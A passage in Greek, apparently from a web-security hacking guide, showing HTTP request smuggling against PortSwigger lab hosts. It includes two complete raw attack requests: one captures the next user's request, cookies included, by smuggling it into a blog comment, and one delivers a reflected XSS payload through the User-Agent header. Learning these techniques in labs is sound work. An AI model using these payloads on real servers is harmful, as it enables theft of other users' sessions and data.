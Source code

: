 Είναι εφικτό να καταγράψετε τα αιτήματα του επόμενου χρήστη προσθέτοντας ένα συγκεκριμένο αίτημα ως την τιμή μιας παραμέτρου κατά τη διάρκεια μιας λειτουργίας POST. Να πώς μπορεί να επιτευχθεί αυτό:

Με την προσθήκη του παρακάτω αιτήματος ως την τιμή μιας παραμέτρου, μπορείτε να αποθηκεύσετε το αίτημα του επόμενου πελάτη:
```
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
```
Σε αυτό το σενάριο, η **παράμετρος σχολίου** προορίζεται να αποθηκεύσει τα περιεχόμενα στην ενότητα σχολίων μιας ανάρτησης σε μια δημόσια προσβάσιμη σελίδα. Ως εκ τούτου, τα περιεχόμενα του επόμενου αιτήματος θα εμφανιστούν ως σχόλιο.

Ωστόσο, αυτή η τεχνική έχει περιορισμούς. Γενικά, καταγράφει δεδομένα μόνο μέχρι τον διαχωριστή παραμέτρου που χρησιμοποιείται στο λαθραίο αίτημα. Για τις υποβολές φορμών με κωδικοποίηση URL, αυτός ο διαχωριστής είναι ο χαρακτήρας `&`. Αυτό σημαίνει ότι το καταγεγραμμένο περιεχόμενο από το αίτημα του θύματος θα σταματήσει στον πρώτο `&`, ο οποίος μπορεί ακόμη και να είναι μέρος της συμβολοσειράς ερωτήματος.

Επιπλέον, αξίζει να σημειωθεί ότι αυτή η προσέγγιση είναι επίσης βιώσιμη με μια ευπάθεια TE.CL. Σε τέτοιες περιπτώσεις, το αίτημα θα πρέπει να ολοκληρώνεται με `search=\r\n0`. Ανεξάρτητα από τους χαρακτήρες νέας γραμμής, οι τιμές θα προστεθούν στην παράμετρο αναζήτησης.

### Χρησιμοποιώντας το HTTP request smuggling για να εκμεταλλευτείτε το Reflected XSS

Το HTTP Request Smuggling μπορεί να αξιοποιηθεί για να εκμεταλλευτεί ευάλωτες ιστοσελίδες σε **Reflected XSS**, προσφέροντας σημαντικά πλεονεκτήματα:

* Η αλληλεπίδραση με τους στόχους χρήστες είναι **μη απαραίτητη**.
* Επιτρέπει την εκμετάλλευση του XSS σε μέρη του αιτήματος που είναι **κανονικά μη προσβάσιμα**, όπως οι κεφαλίδες αιτήματος HTTP.

Σε σενάρια όπου μια ιστοσελίδα είναι ευάλωτη σε Reflected XSS μέσω της κεφαλίδας User-Agent, το παρακάτω payload δείχνει πώς να εκμεταλλευτείτε αυτήν την ευπάθεια:
```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded
```